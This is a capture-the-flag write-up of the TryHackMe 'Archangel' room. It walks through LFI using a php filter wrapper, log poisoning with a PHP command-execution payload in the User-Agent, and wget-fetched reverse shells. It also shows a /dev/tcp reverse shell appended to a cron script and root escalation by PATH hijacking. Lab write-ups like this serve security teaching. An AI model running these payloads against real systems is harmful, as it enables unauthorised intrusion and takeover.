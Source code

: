 ```yaml
---
layout: post
title: Archangel
categories: [Tryhackme, Easy]
tags: [nmap, LFI, Reverse shell]
image: https://i.ibb.co/172sMbW/archangel.jpg
---
```

Hello guys and welcome to yet another writeup. This is ye another easy box on tryhackme and is accessible [here](https://tryhackme.com/room/archangel)
We shall tackle some awesome topics which include:
  1. LFI.
  2. Priviledge exploitation.
  3. Web exploitation.
With that said let us get right to it

## NMAP scan.
As usual we are gonna start of by scanning open ports on our machine.
![1](https://i.ibb.co/ZVjYSZ9/nmap.png)

We are able to see that port 80 is open and is hosting a web application.
we are able to view a home page which does not have alot on it but we can see a type of hostname

![2](https://i.ibb.co/YLJjDwK/wavefire.png)

We can actually use this and and it to our **/etc/hosts** file, then try and go to the page.
![3](https://i.ibb.co/TWTBYN0/mafia.png)

## LFI.
Okay guys it is about to get really messy in here. Stay frosty.

So first of all we are going to FUZZ for hidden directories.

![4](https://i.ibb.co/kQRKnYg/wfuzz.png)

And we get a hit for **robots.txt**. which when we visit the page looks something like this.

![5](https://i.ibb.co/vv2SyZj/robots.png).

And we can actually see another directory **/test.php**. visit this page and we can view another page with a button.

![6](https://i.ibb.co/cJPSy3b/control.png)

We can then see that the button redirects us to **?view=/var/www/html/development_testing/mrrobot.php**.

From here we can try to do a path traversal filter. After hours of trial and error I found this filter and it worked.
**php://filter/convert.base64-encode/resource=**
Okay so now we can see some base64 code 
let us try and change **mrrobot.php** to **test.php**. And we can see some more base64. let us decode that.

![7](https://i.ibb.co/pnGV1tK/testbase64.png)
![8](https://i.ibb.co/944fSfv/lfiflag.png)

And we can get a flag but also we can see some php filters on it.
## Acesslog
Okay so the filter dictates that using **../..** which we can easily bypasss by using **..//..**

Next let us try and view the access log using the bypass.

![9](https://i.ibb.co/f98gBfQ/accesslog.png)

So next we can try and pass some malicious code to the user agent. **<?php system($_GET['cmd']); ?>**.
So to do this follow this steps.

 1. right click and press Inspect on the dropdown menu.
 2. click on the Network option and reload the page
 3. Hit resend.
 4. scroll to the user agent and replace with the malicious code.
 5. Hit send.

Smooth so next up let us try and execute some commands on it.
let us try and add **&cmd=ls** to the end of the url.

![10](https://i.ibb.co/WWmnG2H/cmd-ls.png)

We can actually run commands on it. so next let us try and get a reverse shell.

## SHELL
So we are going to get a sample php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Next, we are going to set up a python server on our machine. 
Next, we are going to run **&cmd=wget http://ip/revshell.php**
We should be able to get a 200 code on our machine.
![11](https://i.ibb.co/4jKLJfz/httpserver.png)

next start up a listener on your machine
Then run **&cmd=php revshell.php**
going back to our listener we have a shell.

![12](https://i.ibb.co/gzQvS34/nc.png)


## Switch user.

So next we can get a better shell by using **python3 -c "import pty;pty.spawn('/bin/bash -i')"**

Then we can check out the cron jobs **cat /etc/crontab**

We can actually see that a job runs as archangel every minute. Which we can read and write.
So we then run **echo "bash -i >& /dev/tcp/ip/1235 0>&1" >> /opt/helloworld.sh**

![13](https://i.ibb.co/qFqjRB3/archangel.png)

Then run another listener and wait for a minute. Coffee break.

## ROOT

Moving into the secret directory we can see a file called backup. Running does not do much so we are going to do something crazy. 
So type:
 1. **echo '/bin/bash -p' > cp**
 2. **chmod 777 cp**
 3. **export PATH=/home/archangel/secret:$PATH**
 4. **echo $PATH**
 5. **./backup**

Okay let us dig into what jus happened. This is gonna be crazy but heck.

 1. **echo '/bin/bash -p' > cp**: This command redirects the output of the `echo` command, which is the string `'/bin/bash -p'`, into a file named `cp`. The content of the `cp` file will be `/bin/bash -p`.

 2. **chmod 777 cp**: This command changes the permissions of the `cp` file to allow all users to read, write, and execute it. The `chmod` command is used to modify file permissions, and `777` is a symbolic representation that grants all permissions to the owner, group, and others.

 3. **export PATH=/home/archangel/secret:$PATH**: This command adds a directory called `/home/archangel/secret` to the beginning of the `PATH` environment variable. The `PATH` variable contains a list of directories that the shell searches for executable files. By adding `/home/archangel/secret` at the beginning, any executable file in that directory will take precedence over files with the same name in other directories listed in `PATH`.

 4. **echo $PATH**: This command displays the value of the `PATH` environment variable. After the previous `export` command, it will show `/home/archangel/secret` followed by the original directories that were part of `PATH`.

 5. **./backup**: This command attempts to execute a file named `backup` in the current directory. The `./` prefix indicates that the file should be executed from the current directory instead of searching for it in the directories listed in `PATH`. If the `backup` file exists and has executable permissions, it will be run with the elevated privileges specified in step 1 (`/bin/bash -p`).

Overall, these commands create a file called `cp` with elevated permissions, modify the `PATH` environment variable to prioritize a specific directory, and execute a file named `backup` with elevated privileges. The exact consequences and implications of these actions depend on the specific context and contents of the `backup` file.

And yes we are root.
![14](https://i.ibb.co/tCf2k5W/root.png)

## RESOURCES
[BASH FOR BEGINNERS](https://www.tldp.org/LDP/Bash-Beginners-Guide/html/)
[PHP TRICKS](https://devansh.xyz/ctfs/2021/09/11/php-tricks.html)

Okay honestly that was a great learning experience for me and I hope it is the same for you. 
Happy hacking :)

